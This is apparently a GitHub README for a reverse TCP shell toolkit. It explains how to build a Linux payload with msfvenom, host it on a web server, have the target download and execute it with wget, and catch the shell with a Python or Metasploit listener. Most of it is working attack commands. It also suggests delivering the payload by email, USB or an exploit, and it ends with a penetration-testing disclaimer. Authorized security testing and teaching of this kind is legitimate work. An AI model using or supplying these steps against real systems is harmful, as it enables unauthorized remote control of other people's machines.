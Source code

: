 # Reverse TCP Shell Toolkit

This toolkit provides two Python scripts to generate and catch a reverse TCP shell on a Linux target:
- `generate_payload.py`: Creates a `shell.elf` payload using `msfvenom` for a 64-bit Linux system.
- `listener.py`: A Python-based listener to catch the reverse shell (optional, less reliable).

You can catch the shell using either the Python listener or Metasploit’s `msfconsole` (recommended for reliability). This `README.md` explains both paths.

## Prerequisites
- **Metasploit Framework**: Required for `generate_payload.py` and the Metasploit path.
  - Install on macOS/Linux:
    ```bash
    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
    chmod 755 msfinstall
    sudo ./msfinstall
    ```
  - Add to PATH (for zsh):
    ```bash
    echo 'export PATH="$PATH:/opt/metasploit-framework/bin"' >> ~/.zshrc
    source ~/.zshrc
    ```
  - Verify:
    ```bash
    which msfvenom
    which msfconsole
    ```
- **Python 3**: Required for both scripts.
  - Verify:
    ```bash
    python3 --version
    ```
- **Network Access**: The target must reach your attacking machine’s IP (`LHOST`) and port (`LPORT`).
- **Firewall**: Allow incoming connections on your `LPORT` (e.g., `4444`) and web server port (`8000`):
  ```bash
  sudo ufw allow 4444
  sudo ufw allow 8000
  ```

## Finding Your LHOST
- `LHOST` is your attacking machine’s IP address (not the target’s).
- Find it:
  ```bash
  ifconfig | grep inet
  ```
  - Look for an IP like `192.168.x.x` (e.g., `192.168.1.100`), not `127.0.0.1`.
  - If the target is on a different network, use your public IP (`curl ifconfig.me`) and set up port forwarding.

## Path 1: Using the Python Listener

### Step 1: Generate the Payload
- Run:
  ```bash
  python3 generate_payload.py
  ```
- Enter:
  - `LHOST`: Your attacking machine’s IP (e.g., `192.168.1.100`).
  - `LPORT`: A port for the shell (e.g., `4444`).
- Output: Creates `shell.elf` in the current directory.
- Verify:
  ```bash
  ls
  ```

### Step 2: Host the Payload
- Start a web server to host `shell.elf`:
  ```bash
  python3 -m http.server 8000
  ```
- Keep this terminal open.

### Step 3: Download and Run on the Target
- On the **target Linux machine** (via terminal, SSH, or exploit):
  ```bash
  wget http://<your_LHOST>:8000/shell.elf
  chmod +x shell.elf
  ./shell.elf
  ```
  - Replace `<your_LHOST>` with your attacking machine’s IP (e.g., `192.168.1.100`).

### Step 4: Start the Python Listener
- In a new terminal on your attacking machine:
  ```bash
  python3 listener.py
  ```
- Enter:
  - `HOST`: Use `0.0.0.0` to listen on all interfaces.
  - `PORT`: Same `LPORT` as in Step 1 (e.g., `4444`).
- When the target runs `shell.elf`, you’ll get a shell in the listener terminal.

### Note
- The Python listener is less reliable for the `linux/x64/shell_reverse_tcp` payload (staged). For better results, use the Metasploit path below or switch to a non-staged payload (edit `generate_payload.py` to use `linux/x64/shell/reverse_tcp`).

## Path 2: Using Metasploit (Recommended)

### Step 1: Generate the Payload
- Same as Path 1:
  ```bash
  python3 generate_payload.py
  ```
- Enter:
  - `LHOST`: Your attacking machine’s IP (e.g., `192.168.1.100`).
  - `LPORT`: A port for the shell (e.g., `4444`).
- Output: Creates `shell.elf`.

### Step 2: Host the Payload
- Same as Path 1:
  ```bash
  python3 -m http.server 8000
  ```

### Step 3: Download and Run on the Target
- Same as Path 1, on the **target**:
  ```bash
  wget http://<your_LHOST>:8000/shell.elf
  chmod +x shell.elf
  ./shell.elf
  ```

### Step 4: Start Metasploit Listener
- In a new terminal on your attacking machine:
  ```bash
  msfconsole
  ```
- In `msfconsole`:
  ```ruby
  use multi/handler
  set PAYLOAD linux/x64/shell_reverse_tcp
  set LHOST <your_LHOST>
  set LPORT <your_LPORT>
  exploit
  ```
  - Replace `<your_LHOST>` and `<your_LPORT>` with the same values from Step 1 (e.g., `192.168.1.100` and `4444`).
- When the target runs `shell.elf`, you’ll get a shell in `msfconsole`.

## Payload Delivery Notes
- **Web Server**: The `python3 -m http.server 8000` method is one way to deliver `shell.elf`. Alternatively, use email, USB, or an exploit to transfer the file.
- **Target Access**: You need a way to run commands on the target (e.g., terminal access, SSH, or a vulnerability).
- **Verify Delivery**: On the target:
  ```bash
  ls
  ```

## Troubleshooting
- **msfconsole Not Found**:
  - Verify:
    ```bash
    ls /opt/metasploit-framework/bin/msfconsole
    ```
  - Reinstall if needed (see Prerequisites).
- **No Connection**:
  - Ensure `LHOST` and `LPORT` match in `generate_payload.py` and `listener.py`/`msfconsole`.
  - Test reachability from the target:
    ```bash
    ping <your_LHOST>
    ```
  - Check firewall:
    ```bash
    sudo ufw status
    ```
- **Target Architecture**:
  - `shell.elf` is for 64-bit Linux. For 32-bit, edit `generate_payload.py`:
    ```python
    payload = "linux/x86/shell_reverse_tcp"
    ```
  - Re-run `generate_payload.py`.
- **Listener Errors**:
  - If `listener.py` fails (e.g., “Address already in use”):
    ```bash
    netstat -tuln | grep <your_LPORT>
    ```
  - Kill conflicting processes or choose a different `LPORT`.

## Security Disclaimer
This toolkit is for **authorized penetration testing only**. Use only on systems you have explicit permission to test. Unauthorized use is illegal.

## Contact
- Website: [beluli.mk](https://beluli.mk)
- Roles: Penetration Tester, Bug Bounty Hunter, Security Researcher
